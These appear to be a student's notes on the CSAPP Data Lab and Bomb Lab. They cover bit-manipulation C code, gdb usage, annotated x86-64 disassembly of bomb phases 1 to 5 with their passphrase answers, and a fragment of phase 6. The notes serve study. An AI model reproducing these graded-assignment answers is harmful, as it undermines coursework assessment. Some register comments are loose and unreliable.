





CSAPP - Computer System
Lab1 - Data Lab (C bitwise operations)
How to setup the test environment.
How to open VS code on WSL2. -> Open Docker Desktop. On Vs code, type remote container
For lab1. Data lab1.
cd ~
ls
cd csapplab
cd datalab/datalab-handout
make clean && make && ./btest
Notes:
Q1. BitXor;

Ideas: First find the OR gate of two inputs, flip them use not then and them. And the initial two inputs and not the output then finally and the two values.
Floating point:


Will always convert to the form of M = 1.xxx, and M x 2^pow
floatFloat2Int(f)
将浮点数转换为整数
- 代码
/*
* floatFloat2Int - Return bit-level equivalent of expression (int) f
* for floating point argument f.
* Argument is passed as unsigned int, but
* it is to be interpreted as the bit-level representation of a
* single-precision floating point value.
* Anything out of range (including NaN and infinity) should return
* 0x80000000u.
* Legal ops: Any integer/unsigned operations incl. ||, &&. also if, while
* Max ops: 30
* Rating: 4
*/
int floatFloat2Int(unsigned uf) {
int s_ = uf>>31;
int exp_ = ((uf&0x7f800000)>>23)-127;
int frac_ = (uf&0x007fffff)|0x00800000;
if(!(uf&0x7fffffff)) return 0;
if(exp_ > 31) return 0x80000000;
if(exp_ < 0) return 0;
if(exp_ > 23) frac_ <<= (exp_-23);
else frac_ >>= (23-exp_);
if(!((frac_>>31)^s_)) return frac_;
else if(frac_>>31) return 0x80000000;
else return ~frac_+1;
}
- 思路
首先考虑特殊情况：如果原浮点值为0则返回0；如果真实指数大于31（frac部分是大于等于1的，1<<31位会覆盖符号位），返回规定的溢出值0x80000000u；如果 𝑒𝑥𝑝<0 （1右移x位,x>0，结果为0）则返回0。剩下的情况：首先把小数部分（23位）转化为整数（和23比较），然后判断是否溢出：如果和原符号相同则直接返回，否则如果结果为负（原来为正）则溢出返回越界指定值0x80000000u，否则原来为负，结果为正，则需要返回其补码（相反数）。
The idea is to apply the concept that when converting from the binary int to the float format, need to use the normalized encoding idea.
Takeaway:


-
Any arithmetic operations with unsigned values will cast the result to be unsigned.
-
The size_t defined as unsinged value with length = word size, In C++,
size_tis a data type used to represent the size of objects. It's an unsigned integer type that's capable of storing the size in bytes of any object. Its actual size can vary depending on the platform and compiler, but it's typically chosen to be large enough to represent the maximum possible size of a theoretically possible object on the given platform. size_t is better than used unsigned_int . - Reference https://pvs-studio.com/en/blog/terms/0044/#:~:text=The%20size_t%20is%20chosen%20so,64%2Dbit%20one%2064%20bits.
- The 2's complement of a value is ~x + 1;
Lab2 - Bomb Lab(Disassemble the object code to reverse engineering the program)



GDB Debug tool
To debug, use dgb debugged, the pdf can be found at this link
https://csapp.cs.cmu.edu/2e/docs/gdbnotes-x86-64.pdf
gdb object code or compiled code gdb bomb
Inside, running disassmble function disas <function name>
x/s 0x402400 x/s will be used to Examine a string stored at 0xbffff890.
Write a function in x64

Phase_1
Dump of assembler code for function phase_1:
0x0000000000400ee0 <+0>: sub $0x8,%rsp
0x0000000000400ee4 <+4>: mov $0x402400,%esi
0x0000000000400ee9 <+9>: callq 0x401338 <strings_not_equal>
0x0000000000400eee <+14>: test %eax,%eax
//Expected return eax to be zero to diffuse the bomb
0x0000000000400ef0 <+16>: je 0x400ef7 <phase_1+23>
0x0000000000400ef2 <+18>: callq 0x40143a <explode_bomb>
0x0000000000400ef7 <+23>: add $0x8,%rsp
0x0000000000400efb <+27>: retq
End of assembler dump.
Dump of assembler code for function strings_not_equal:
0x0000000000401338 <+0>: push %r12
0x000000000040133a <+2>: push %rbp
0x000000000040133b <+3>: push %rbx
0x000000000040133c <+4>: mov %rdi,%rbx
0x000000000040133f <+7>: mov %rsi,%rbp
0x0000000000401342 <+10>: callq 0x40131b <string_length>
Dump of assembler code for function string_length:
0x000000000040131b <+0>: cmpb $0x0,(%rdi)
0x000000000040131e <+3>: je 0x401332 <string_length+23>
0x0000000000401320 <+5>: mov %rdi,%rdx
0x0000000000401323 <+8>: add $0x1,%rdx
Address Value
0x1000 'h'
0x1001 'e'
0x1002 'l'
0x1003 'l'
0x1004 'o'
0x1005 '\0' (null terminator)
0x0000000000401327 <+12>: mov %edx,%eax
0x0000000000401329 <+14>: sub %edi,%eax
0x000000000040132b <+16>: cmpb $0x0,(%rdx)
0x000000000040132e <+19>: jne 0x401323 <string_length+8>
0x0000000000401330 <+21>: repz retq
0x0000000000401332 <+23>: mov $0x0,%eax
0x0000000000401337 <+28>: retq
End of assembler dump.
Explain of String_lengh:
Dump of assembler code for function string_length:
0x000000000040131b <+0>: cmpb $0x0,(%rdi)
0x000000000040131e <+3>: je 0x401332 <string_length+23>
0x0000000000401320 <+5>: mov %rdi,%rdx
0x0000000000401323 <+8>: add $0x1,%rdx
0x0000000000401327 <+12>: mov %edx,%eax
0x0000000000401329 <+14>: sub %edi,%eax
0x000000000040132b <+16>: cmpb $0x0,(%rdx)
0x000000000040132e <+19>: jne 0x401323 <string_length+8>
0x0000000000401330 <+21>: repz retq
0x0000000000401332 <+23>: mov $0x0,%eax
0x0000000000401337 <+28>: retq
End of assembler dump.
First, compare the first dereference value at rdi, if not zero, go to the next statement, if zero. return 0.
Copy the input string rdi to the rdx,
Move the pointer one step at rdx,
Copy the edx to eax
Subtract eax from the original edi, it will perform the address subtracting. First loop should return 1 step,
Compare the next pointer address value if it is null with zero. If not, go back to the +8, if yes, it will return the eax reg.
This function is used to calcualte the string length.

In the main code section, the rdi is a user input,
rsi is the direct access of the memory address at 0x402400.
Dump of assembler code for function strings_not_equal:
////what does it do, just compare tow input string, rdi and rsi, return the eax to zero if they are equal else return eax to 1
0x0000000000401338 <+0>: push %r12
0x000000000040133a <+2>: push %rbp
0x000000000040133b <+3>: push %rbx
0x000000000040133c <+4>: mov %rdi,%rbx
0x000000000040133f <+7>: mov %rsi,%rbp
0x0000000000401342 <+10>: callq 0x40131b <string_length>
0x0000000000401347 <+15>: mov %eax,%r12d
0x000000000040134a <+18>: mov %rbp,%rdi
0x000000000040134d <+21>: callq 0x40131b <string_length>
0x0000000000401352 <+26>: mov $0x1,%edx
0x0000000000401357 <+31>: cmp %eax,%r12d //compare the length of two inputs
0x000000000040135a <+34>: jne 0x40139b <strings_not_equal+99> //if not same, end, set eax = edx = 0x1
0x000000000040135c <+36>: movzbl (%rbx),%eax
//what is movzbl, movz, convert the single byte into 4bytes, 8bit -32bit. and zero extend the eax register
Zero-Extension
Zero-Extend: This means that the rest of the EAX register (the upper 24 bits) will be set to zero after the byte is moved.
Example: If the byte at (%rbx) is 0x41 (which is the ASCII code for 'A'):
After execution, EAX will be 0x00000041.
0x000000000040135f <+39>: test %al,%al
//zf set wen a&b == 0, test the rax if the start is null, check the char if it is null, if null then both empty, still same return eax =0
0x0000000000401361 <+41>: je 0x401388 <strings_not_equal+80>
0x0000000000401363 <+43>: cmp 0x0(%rbp),%al
0x0000000000401366 <+46>: je 0x401372 <strings_not_equal+58>
0x0000000000401368 <+48>: jmp 0x40138f <strings_not_equal+87>
0x000000000040136a <+50>: cmp 0x0(%rbp),%al
0x000000000040136d <+53>: nopl (%rax)
0x0000000000401370 <+56>: jne 0x401396 <strings_not_equal+94>
0x0000000000401372 <+58>: add $0x1,%rbx
0x0000000000401376 <+62>: add $0x1,%rbp
0x000000000040137a <+66>: movzbl (%rbx),%eax
0x000000000040137d <+69>: test %al,%al
0x000000000040137f <+71>: jne 0x40136a <strings_not_equal+50>
0x0000000000401381 <+73>: mov $0x0,%edx
0x0000000000401386 <+78>: jmp 0x40139b <strings_not_equal+99>
0x0000000000401388 <+80>: mov $0x0,%edx
0x000000000040138d <+85>: jmp 0x40139b <strings_not_equal+99>
0x000000000040138f <+87>: mov $0x1,%edx
0x0000000000401394 <+92>: jmp 0x40139b <strings_not_equal+99>
0x0000000000401396 <+94>: mov $0x1,%edx
0x000000000040139b <+99>: mov %edx,%eax
0x000000000040139d <+101>: pop %rbx
0x000000000040139e <+102>: pop %rbp
0x000000000040139f <+103>: pop %r12
0x00000000004013a1 <+105>: retq
End of assembler dump.

Ans:
(gdb) x/s 0x402400
0x402400: "Border relations with Canada have never been better."
Border relations with Canada have never been better.
Phase_2
The LEA (Load Effective Address) instruction in x86-64 assembly language is used to perform address calculations and load the result into a register. Unlike other instructions that directly access memory, LEA simply computes an address and stores it in a register without accessing the memory at that address.
The purpose of LEA is to allow one to perform a non-trivial address calculation and store the result [for later usage]
Lea 用来计算地址，值不会进行传递
- destination: A general-purpose register where the result of the address calculation will be stored.
- source: An effective address expression that typically involves base registers, index registers, scaling factors, and displacement values.
Dump of assembler code for function phase_2:
0x0000000000400efc <+0>: push %rbp
0x0000000000400efd <+1>: push %rbx
0x0000000000400efe <+2>: sub $0x28,%rsp
//allocate 40bytes to store local variables on stack
0x0000000000400f02 <+6>: mov %rsp,%rsi
// rsi = rsp,
0x0000000000400f05 <+9>: callq 0x40145c <read_six_numbers>
{
rsi -> rdx
0x4 (rsi) -> rcx
6 overall registers and stack pointer as arguments to read and store the data in rsi = rsp(in phase_2),
rsi -> rdx first integer -> rax
0x4(%rsp) = 0x4(%rsi) -> rcx: Address for the second integer. -> 0x4(rax)
0x14(%rsi) -> rax: Address for the sixth integer. -> + 4
0x10(%rsi) -> rax: Address for the fifth integer. -> +4
0xc(%rsi) -> r9: Address for the fourth integer. -> +4
the scannf function will get the inputs from rdi, the format of rsi, and store the reading values at register rdx -> stack, which is on rsp. and return rax, how many values read
}
0x0000000000400f0a <+14>: cmpl $0x1,(%rsp)
// rsp 0x0 = 1
0x0000000000400f0e <+18>: je 0x400f30 <phase_2+52>
0x0000000000400f10 <+20>: callq 0x40143a <explode_bomb>
0x0000000000400f15 <+25>: jmp 0x400f30 <phase_2+52>
0x0000000000400f17 <+27>: mov -0x4(%rbx),%eax
0x0000000000400f1a <+30>: add %eax,%eax
// adding the current one by itself -> 1+1 = 2
0x0000000000400f1c <+32>: cmp %eax,(%rbx)
// the second int(0x4 rsp) = 2, do the same until it reaches
0x0000000000400f1e <+34>: je 0x400f25 <phase_2+41>
0x0000000000400f20 <+36>: callq 0x40143a <explode_bomb>
0x0000000000400f25 <+41>: add $0x4,%rbx
//
0x0000000000400f29 <+45>: cmp %rbp,%rbx
// stop when the rbp is at 0x18 = 24bytes
0x0000000000400f2c <+48>: jne 0x400f17 <phase_2+27>
0x0000000000400f2e <+50>: jmp 0x400f3c <phase_2+64>
0x0000000000400f30 <+52>: lea 0x4(%rsp),%rbx
0x0000000000400f35 <+57>: lea 0x18(%rsp),%rbp
//0x18 = 24, last digit in rbp
0x0000000000400f3a <+62>: jmp 0x400f17 <phase_2+27>
0x0000000000400f3c <+64>: add $0x28,%rsp
0x0000000000400f40 <+68>: pop %rbx
0x0000000000400f41 <+69>: pop %rbp
0x0000000000400f42 <+70>: retq
rdi is the input
Dump of assembler code for function read_six_numbers:
0x000000000040145c <+0>: sub $0x18,%rsp
// assign 24 bytes to the rsp
0x0000000000401460 <+4>: mov %rsi,%rdx
0x0000000000401463 <+7>: lea 0x4(%rsi),%rcx
0x0000000000401467 <+11>: lea 0x14(%rsi),%rax
0x000000000040146b <+15>: mov %rax,0x8(%rsp)
0x0000000000401470 <+20>: lea 0x10(%rsi),%rax
0x0000000000401474 <+24>: mov %rax,(%rsp)
0x0000000000401478 <+28>: lea 0xc(%rsi),%r9
0x000000000040147c <+32>: lea 0x8(%rsi),%r8
0x0000000000401480 <+36>: mov $0x4025c3,%esi
0x0000000000401485 <+41>: mov $0x0,%eax
0x000000000040148a <+46>: callq 0x400bf0 <__isoc99_sscanf@plt>
0x000000000040148f <+51>: cmp $0x5,%eax
0x0000000000401492 <+54>: jg 0x401499 <read_six_numbers+61>
0x0000000000401494 <+56>: callq 0x40143a <explode_bomb>
0x0000000000401499 <+61>: add $0x18,%rsp
0x000000000040149d <+65>: retq
End of assembler dump.
What this function does is to just read six numbers, and store them into each register

Ans:
1 2 4 8 16 32
Phase_3
Dump of assembler code for function phase_3:
0x0000000000400f43 <+0>: sub $0x18,%rsp
0x0000000000400f47 <+4>: lea 0xc(%rsp),%rcx
0x0000000000400f4c <+9>: lea 0x8(%rsp),%rdx
0x0000000000400f51 <+14>: mov $0x4025cf,%esi
0x0000000000400f56 <+19>: mov $0x0,%eax
0x0000000000400f5b <+24>: callq 0x400bf0 <__isoc99_sscanf@plt>
0x0000000000400f60 <+29>: cmp $0x1,%eax
0x0000000000400f63 <+32>: jg 0x400f6a <phase_3+39>
0x0000000000400f65 <+34>: callq 0x40143a <explode_bomb>
0x0000000000400f6a <+39>: cmpl $0x7,0x8(%rsp)
0x0000000000400f6f <+44>: ja 0x400fad <phase_3+106>
//compare the rsp with 0x7, if above will just explode the bomb
0x0000000000400f71 <+46>: mov 0x8(%rsp),%eax
0x0000000000400f75 <+50>: jmpq *0x402470(,%rax,8)
// jump table
(gdb) x/8gx 0x402470
0x402470: 0x0000000000400f7c 0x0000000000400fb9
0x402480: 0x0000000000400f83 0x0000000000400f8a
0x402490: 0x0000000000400f91 0x0000000000400f98
0x4024a0: 0x0000000000400f9f 0x0000000000400fa6
, so if the first int is 0, jump to 0x0000000000400f7c, store 0xcf and compare with 2nd int. 0xcf = (CF)₁₆ = (12 × 16¹) + (15 × 16⁰) = 207
0x0000000000400f7c <+57>: mov $0xcf,%eax
0x0000000000400f81 <+62>: jmp 0x400fbe <phase_3+123>
0x0000000000400f83 <+64>: mov $0x2c3,%eax
0x0000000000400f88 <+69>: jmp 0x400fbe <phase_3+123>
0x0000000000400f8a <+71>: mov $0x100,%eax
0x0000000000400f8f <+76>: jmp 0x400fbe <phase_3+123>
0x0000000000400f91 <+78>: mov $0x185,%eax
0x0000000000400f96 <+83>: jmp 0x400fbe <phase_3+123>
0x0000000000400f98 <+85>: mov $0xce,%eax
0x0000000000400f9d <+90>: jmp 0x400fbe <phase_3+123>
0x0000000000400f9f <+92>: mov $0x2aa,%eax
0x0000000000400fa4 <+97>: jmp 0x400fbe <phase_3+123>
0x0000000000400fa6 <+99>: mov $0x147,%eax
0x0000000000400fab <+104>: jmp 0x400fbe <phase_3+123>
0x0000000000400fad <+106>: callq 0x40143a <explode_bomb>
0x0000000000400fb2 <+111>: mov $0x0,%eax
0x0000000000400fb7 <+116>: jmp 0x400fbe <phase_3+123>
0x0000000000400fb9 <+118>: mov $0x137,%eax
0x0000000000400fbe <+123>: cmp 0xc(%rsp),%eax
0x0000000000400fc2 <+127>: je 0x400fc9 <phase_3+134>
0x0000000000400fc4 <+129>: callq 0x40143a <explode_bomb>
0x0000000000400fc9 <+134>: add $0x18,%rsp
0x0000000000400fcd <+138>: retq
End of assembler dump.
Jump Table

Ans:
0 207
Phase_4
Dump of assembler code for function phase_4:
0x000000000040100c <+0>: sub $0x18,%rsp
0x0000000000401010 <+4>: lea 0xc(%rsp),%rcx ;2nd = 0xc(%rsp)
0x0000000000401015 <+9>: lea 0x8(%rsp),%rdx ;1st= 0x8(%rsp)
0x000000000040101a <+14>: mov $0x4025cf,%esi ;0x4025cf: "%d %d"
0x000000000040101f <+19>: mov $0x0,%eax
0x0000000000401024 <+24>: callq 0x400bf0 <__isoc99_sscanf@plt>
0x0000000000401029 <+29>: cmp $0x2,%eax expect 2ints
0x000000000040102c <+32>: jne 0x401035 <phase_4+41>
0x000000000040102e <+34>: cmpl $0xe,0x8(%rsp) ;0x8(%rsp)= 1st <= 14
0x0000000000401033 <+39>: jbe 0x40103a <phase_4+46> ;jump if below
0x0000000000401035 <+41>: callq 0x40143a <explode_bomb>
0x000000000040103a <+46>: mov $0xe,%edx ;edx = 14
0x000000000040103f <+51>: mov $0x0,%esi ;esi = 0
0x0000000000401044 <+56>: mov 0x8(%rsp),%edi ;edi = 1st <= 14
0x0000000000401048 <+60>: callq 0x400fce <func4>
0x000000000040104d <+65>: test %eax,%eax ; expeact eax to be 0, one case if edi =6
0x000000000040104f <+67>: jne 0x401058 <phase_4+76> //jump not !eq/!zero
0x0000000000401051 <+69>: cmpl $0x0,0xc(%rsp) ; cmp 0 2nd
0x0000000000401056 <+74>: je 0x40105d <phase_4+81> ;solve if euqal, so 2nd =0
0x0000000000401058 <+76>: callq 0x40143a <explode_bomb>
0x000000000040105d <+81>: add $0x18,%rsp
0x0000000000401061 <+85>: retq
End of assembler dump.
Dump of assembler code for function func4: (edi = x, esi =0, edx = 14)
0x0000000000400fce <+0>: sub $0x8,%rsp
0x0000000000400fd2 <+4>: mov %edx,%eax ;eax = 14
0x0000000000400fd4 <+6>: sub %esi,%eax ;eax = 14 - 0
0x0000000000400fd6 <+8>: mov %eax,%ecx ;ecx = 14
0x0000000000400fd8 <+10>: shr $0x1f,%ecx ; ecx = 0
//shr -> logical shift by index ecx
0x0000000000400fdb <+13>: add %ecx,%eax ;eax = 0 + 14
0x0000000000400fdd <+15>: sar %eax ; eax = 1110 >> 1 = 111 = 7
//sar Shift Arithmetic Right.
// arithmetic shift will maintain the sign bit
0x0000000000400fdf <+17>: lea (%rax,%rsi,1),%ecx ecx = 6
// addressing mode. ecx = rax + rsi * 1 = 6 +0 * 1= 6
0x0000000000400fe2 <+20>: cmp %edi,%ecx cmp x, 6
0x0000000000400fe4 <+22>: jle 0x400ff2 <func4+36> ;jump if less or equal
0x0000000000400fe6 <+24>: lea -0x1(%rcx),%edx
0x0000000000400fe9 <+27>: callq 0x400fce <func4>
0x0000000000400fee <+32>: add %eax,%eax
0x0000000000400ff0 <+34>: jmp 0x401007 <func4+57>
0x0000000000400ff2 <+36>: mov $0x0,%eax ;eax =0
0x0000000000400ff7 <+41>: cmp %edi,%ecx ;cmp x, 7 first do lower than greater compare
0x0000000000400ff9 <+43>: jge 0x401007 <func4+57> // jump if greater or equal ; 6 in this case could pass, edi =6
0x0000000000400ffb <+45>: lea 0x1(%rcx),%esi
0x0000000000400ffe <+48>: callq 0x400fce <func4>
0x0000000000401003 <+53>: lea 0x1(%rax,%rax,1),%eax
0x0000000000401007 <+57>: add $0x8,%rsp
0x000000000040100b <+61>: retq
End of assembler dump.
Ans:
7 0
Phase_5
(gdb) disas phase_5
Dump of assembler code for function phase_5: (rdi is the input string)
0x0000000000401062 <+0>: push %rbx ;save rbx reg
0x0000000000401063 <+1>: sub $0x20,%rsp ;allocate 32
0x0000000000401067 <+5>: mov %rdi,%rbx ;rbx = rdi (input)
0x000000000040106a <+8>: mov %fs:0x28,%rax ;canary setup,
0x0000000000401073 <+17>: mov %rax,0x18(%rsp) ;24 rsp = rax
0x0000000000401078 <+22>: xor %eax,%eax ;erase canary
0x000000000040107a <+24>: callq 0x40131b <string_length> ;from phase_1, calcualte string length
0x000000000040107f <+29>: cmp $0x6,%eax ;expect 6 strings separate with space
0x0000000000401082 <+32>: je 0x4010d2 <phase_5+112> ;go to 112
0x0000000000401084 <+34>: callq 0x40143a <explode_bomb>
0x0000000000401089 <+39>: jmp 0x4010d2 <phase_5+112>
; loop from the +74, rbx is the input, for(rax=0; rax<=6;rax++)
0x000000000040108b <+41>: movzbl (%rbx,%rax,1),%ecx ;ecx = rbx + rax * 1 = rbx = input, rbx is the index of the 6 chars, so each time the rax will increase by 1, and rbx pointer will increment by 1
0x000000000040108f <+45>: mov %cl,(%rsp) ;rsp = 8bit rcx, first char of input into rsp
0x0000000000401092 <+48>: mov (%rsp),%rdx ;rdx = rsp = first char
0x0000000000401096 <+52>: and $0xf,%edx ;edx = 0xf = 0b1111 & first char, expect first to be 9, first can be i or y, second can be o or O
;http://sticksandstones.kstrom.com/appen.html, use this link to find docs
;3rd -> n,N
;4rd -> e, E, u, U
;5th -> v,F,V
;6th -> g,G,w,W
0x0000000000401099 <+55>: movzbl 0x4024b0(%rdx),%edx ;edx = 0x4024b0 + (rdx)
; (gdb) x/s 0x4024b0
;0x4024b0 <array.3449>: "maduiersnfotvbylSo you think you can stop the bomb with ctrl-c, do you?"
; based on the index of bl, move the first char into edx, use this string to decrept the msg
;rdx = 9. edx = f
;rdx = 15. edx = l
;rdx = 14. edx = y
;rdx = 5, edx = e
;rdx = 6, edx = r
;rdx = 7. edx = s
0x00000000004010a0 <+62>: mov %dl,0x10(%rsp,%rax,1) ;rdx(8bit), 0x10 + rsp + rax*1 = 0x10 + rsp
0x00000000004010a4 <+66>: add $0x1,%rax ;rax = 1
0x00000000004010a8 <+70>: cmp $0x6,%rax ;cmp rax,6
0x00000000004010ac <+74>: jne 0x40108b <phase_5+41> ;recursion until it reaches the end
0x00000000004010ae <+76>: movb $0x0,0x16(%rsp) ; 24rsp = 0
0x00000000004010b3 <+81>: mov $0x40245e,%esi ;(gdb) x/s 0x40245e 0x40245e: "flyers"
0x00000000004010b8 <+86>: lea 0x10(%rsp),%rdi ; rdi = 16rsp
0x00000000004010bd <+91>: callq 0x401338 <strings_not_equal> ;compare the rsi and rdi
0x00000000004010c2 <+96>: test %eax,%eax
0x00000000004010c4 <+98>: je 0x4010d9 <phase_5+119>
0x00000000004010c6 <+100>: callq 0x40143a <explode_bomb>
0x00000000004010cb <+105>: nopl 0x0(%rax,%rax,1)
0x00000000004010d0 <+110>: jmp 0x4010d9 <phase_5+119>
0x00000000004010d2 <+112>: mov $0x0,%eax ;eax = 0
0x00000000004010d7 <+117>: jmp 0x40108b <phase_5+41> ;jmp to phase_5 + 41
0x00000000004010d9 <+119>: mov 0x18(%rsp),%rax
0x00000000004010de <+124>: xor %fs:0x28,%rax
0x00000000004010e7 <+133>: je 0x4010ee <phase_5+140>
0x00000000004010e9 <+135>: callq 0x400b30 <__stack_chk_fail@plt>
0x00000000004010ee <+140>: add $0x20,%rsp
0x00000000004010f2 <+144>: pop %rbx
0x00000000004010f3 <+145>: retq
End of assembler dump.
Crazy question :<><>
Ans:
ionevg
Phase_6
s(gdb) disas phase_6
Dump of assembler code for function phase_6:
0x00000000004010f4 <+0>: push %r14
0x00000000004010f6 <+2>: push %r13
0x00000000004010f8 <+4>: push %r12
0x00000000004010fa <+6>: push %rbp
0x00000000004010fb <+7>: push %rbx
0x00000000004010fc <+8>: sub $0x50,%rsp
0x0000000000401100 <+12>: mov %rsp,%r13 ;r13 = rsp ;r13 and rsi can both represent input
0x0000000000401103 <+15>: mov %rsp,%rsi ;rsi = rsp
0x0000000000401106 <+18>: callq 0x40145c <read_six_numbers> ;load six inputs from rdi to rsp, see notes from phase_2, index by 4 each ;rsp = six numbers
0x000000000040110b <+23>: mov %rsp,%r14 ;r14 = rsp
0x000000000040110e <+26>: mov $0x0,%r12d ;r12d = 0
0x0000000000401114 <+32>: mov %r13,%rbp ;rbp = r13, rbp=r13 = 2nd int
0x0000000000401117 <+35>: mov 0x0(%r13),%eax ;eax = r13 + 0, first number
0x000000000040111b <+39>: sub $0x1,%eax ;eax = eax - 1
0x000000000040111e <+42>: cmp $0x5,%eax ;cmp eax,5 eax <= 5, from previouse, eax <= 6
0x0000000000401121 <+45>: jbe 0x401128 <phase_6+52> ;jmp if eax is below or equal to 5, has to
0x0000000000401123 <+47>: callq 0x40143a <explode_bomb>
0x0000000000401128 <+52>: add $0x1,%r12d ;r12d = r12d + 1 = 0 + 1
0x000000000040112c <+56>: cmp $0x6,%r12d ;cmp 6, r12d(1)
0x0000000000401130 <+60>: je 0x401153 <phase_6+95> ;jump if equal, not equal for the first
0x0000000000401132 <+62>: mov %r12d,%ebx ;ebx = r12d = 1
;another loop to verify no repeated ints
0x0000000000401135 <+65>: movslq %ebx,%rax ;rax = ebx = 1, rax=ebx=2
